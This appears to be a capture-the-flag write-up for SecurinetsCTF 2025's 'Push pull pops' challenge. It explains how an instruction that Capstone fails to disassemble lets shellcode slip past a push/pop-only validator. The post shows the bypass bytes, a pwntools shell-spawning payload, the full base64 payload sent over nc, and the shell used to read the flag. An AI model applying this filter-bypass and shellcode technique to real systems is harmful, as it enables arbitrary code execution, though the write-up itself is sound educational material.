 +++
author = "vmpr0be"
title = "SecurinetsCTF 2025 Quals - Push pull pops"
date = "2025-10-05"
categories = ["ctf"]
+++

### Overview

We're given a Python script that takes base64 input and decodes it, expecting x86_64 assembly code to execute.

```python
...
from capstone import Cs, CS_ARCH_X86, CS_MODE_64
from capstone import CS_OP_REG
...

def check(code: bytes):
    if len(code) > 0x2000:
        return False

    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True

    for insn in md.disasm(code, 0):
        name = insn.insn_name()
        if name!="pop" and name!="push" :
            if name=="int3" :
                continue
            return False
        if insn.operands[0].type!=CS_OP_REG:
            return False
            
        
    return True

def run(code: bytes):
    # Runs the code
    ...

def main():
    code = input("Shellcode : ")
    code = base64.b64decode(code.encode())
  
    ...

    if check(code):
        run(code)
  
    ...
```

We notice that the disassembler used in this challenge is [Capstone](https://github.com/capstone-engine/capstone).

For the script to run the given code, the following conditions must be met:
- The disassembled instruction must be `PUSH`, `POP`, or `INT3`.
- The `PUSH` and `POP` instructions must only contain a `REGx` as the first operand.

If any condition isn't met, the program will not run our code.

### Vulnerability

The vulnerability is in the check function, it keeps disassembling instructions until it hits an invalid instruction. This means if we provide an invalid instruction as the first instruction, it won't be disassembled without returning an error, thus skipping the next instructions.

### Exploitation

To exploit this vulnerability, we need to find an instruction that is valid to execute by the CPU but considered invalid for the disassembler.

Luckily there's [a still open issue](https://github.com/capstone-engine/capstone/issues/2442) about an instruction that isn't correctly disassembled which is then deemed invalid.
After slight edit of the problematic instruction, we end up with the following instruction:
```
movsxd ecx, eax 
```

We just need to insert this instruction at the beginning of our shellcode to make the check function exit early due to that instruction being invalid.

```python
shellcode = b"\x63\xc8" # movsxd ecx, eax
shellcode += asm(shellcraft.sh()) # crafted shellcode that opens a shell
```

We then encode the shellcode in base64 and give it to the server:

```bash
> nc pwn-14caf623.p1.securinets.tn 9001

Shellcode : Y8hqaEi4L2Jpbi8vL3NQSInnaHJpAQGBNCQBAQEBMfZWagheSAHmVkiJ5jHSajtYDwU=

# We're now in a shell
> cat app/flag.txt
> Securinets{push_pop_to_hero}
```
